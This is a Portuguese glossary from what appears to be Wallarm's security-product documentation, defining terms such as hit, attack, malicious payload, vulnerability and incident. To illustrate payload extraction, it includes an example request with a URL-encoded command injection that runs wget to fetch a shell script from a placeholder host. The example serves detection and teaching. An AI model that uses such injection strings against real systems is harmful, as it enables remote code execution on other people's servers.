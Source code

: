 # Glossário

O glossário abrange as principais entidades do Wallarm para fornecer uma melhor compreensão da plataforma.

## Hit

Um hit é uma solicitação maliciosa serializada (solicitação maliciosa original e metadados adicionados pelo nó de filtragem), por exemplo:

![Exemplo de hit](images/user-guides/events/analyze-attack-raw.png)

[Detalhes dos parâmetros de hit](user-guides/events/analyze-attack.md#analyze-requests-in-an-event)

## Ataque

Um ataque é um único hit ou vários hits agrupados pelas seguintes características:

* O mesmo tipo de ataque, o parâmetro com a carga maliciosa e o endereço ao qual os hits foram enviados. Os hits podem vir dos mesmos ou diferentes endereços IP e ter diferentes valores das cargas maliciosas dentro de um tipo de ataque.

   Este método de agrupamento de hits é básico e aplicado a todos os hits.
* O mesmo endereço IP de origem se a [trigger](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack) apropriado estiver ativado. Outros valores de parâmetros de hit podem variar.

   Este método de agrupamento de hits funciona para todos os hits, exceto para os do tipo Brute force, Brute force, Forced browsing, BOLA (IDOR), Limite de recursos, Bomba de dados e tipos de ataque de patch virtual.

   Se os hits são agrupados por este método, o botão [**Marcar como falso-positivo**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) e a opção de [verificação ativa](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) não estão disponíveis para o ataque.

Os métodos de agrupamento de hits listados não se excluem. Se os hits possuírem características de ambos os métodos, todos serão agrupados em um ataque.

Um exemplo de um ataque incluindo um único hit:

![Ataque com um hit](images/glossary/attack-with-one-hit-example.png)

Um exemplo de um ataque incluindo muitos hits:

![Ataque com vários hits](images/glossary/attack-with-several-hits-example.png)

## Carga Maliciosa

Uma parte de uma solicitação original contendo os seguintes elementos:

* Sinais de ataque detectados em uma solicitação. Se vários sinais de ataque caracterizando o mesmo tipo de ataque forem detectados em uma solicitação, apenas o primeiro sinal será registrado como uma carga.
* Contexto do sinal de ataque. O contexto é um conjunto de símbolos que antecedem e fecham os sinais de ataque detectados. Como o comprimento de uma carga é limitado, o contexto pode ser omitido se um sinal de ataque for de comprimento total da carga.

Por exemplo:

* Solicitação:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Carga maliciosa:

    ```bash
    ;wget+http://s
    ```

    Nesta carga, `;wget+` é o sinal de ataque [RCE](attacks-vulns-list.md#remote-code-execution-rce) e outra parte da carga é o contexto do sinal de ataque.

Como os sinais de ataque não são usados para detectar [ataques comportamentais](about-wallarm/protecting-against-attacks.md#behavioral-attacks), solicitações enviadas como parte de ataques comportamentais têm cargas vazias.

## Vulnerabilidade
Uma vulnerabilidade é um erro cometido por negligência ou informações inadequadas ao construir ou implementar uma aplicação web que pode levar a um risco de segurança da informação.

Os riscos de segurança da informação são:

* Acesso não autorizado a dados; por exemplo, acesso para ler e modificar os dados do usuário.
* Negação de serviço.
* Corrupção de dados e outros.

O tráfego da internet pode ser usado para detectar as vulnerabilidades, que é uma das funções do Wallarm, entre outras.

## Incidente de Segurança

Um incidente de segurança é uma ocorrência de exploração de vulnerabilidade. Um incidente é um [ataque](#attack) direcionado a uma vulnerabilidade confirmada.

Um incidente, como um ataque, é uma entidade externa ao seu sistema e é uma característica da Internet externa, não do sistema em si. Apesar do fato de que os ataques direcionados às vulnerabilidades existentes são minoria, eles são da maior importância em termos de segurança da informação. O Wallarm detecta automaticamente os ataques direcionados às vulnerabilidades existentes e os exibe como um objeto separado - incidente.

## Buffer Circular
Um buffer circular é uma estrutura de dados que utiliza um único buffer de tamanho fixo como se estivesse conectado de ponta a ponta.
[Veja na Wikipedia](https://en.wikipedia.org/wiki/Circular_buffer).

## Conjunto de regras personalizadas (o termo anterior é LOM)

Um conjunto de regras personalizadas é um conjunto de regras de segurança compiladas baixadas pelos nós do Wallarm do Cloud do Wallarm.

As regras personalizadas permitem que você configure regras individuais para o processamento de tráfego, por exemplo:

* Mascara dados sensíveis antes de carregar para o Wallarm Cloud
* Crie indicadores de ataque baseados em expressões regulares
* Aplique um patch virtual bloqueando solicitações que exploram uma vulnerabilidade ativa
* Desative a detecção de ataque em certas solicitações, etc.

Um conjunto de regras personalizadas não está vazio por padrão, ele contém as regras criadas para todos os clientes registrados no cloud, por exemplo, a regra do modo de filtragem com o valor da [**aba Configurações → Geral**](user-guides/settings/general.md).

[Mais detalhes sobre conjuntos de regras personalizadas](user-guides/rules/intro.md)

## Solicitação Inválida
Uma solicitação que foi verificada pelo nó de filtro e não coincide com as regras do LOM.

## Proxy Reverso
Um proxy reverso é um tipo de servidor proxy que recupera recursos em nome de um cliente de um servidor e retorna os recursos para o cliente como se eles se originassem do próprio servidor da web.
[Veja na Wikipedia](https://en.wikipedia.org/wiki/Reverse_proxy).

## Autoridade Certificadora
Uma autoridade certificadora é uma entidade que emite certificados digitais.
[Veja na Wikipedia](https://en.wikipedia.org/wiki/Certificate_authority).
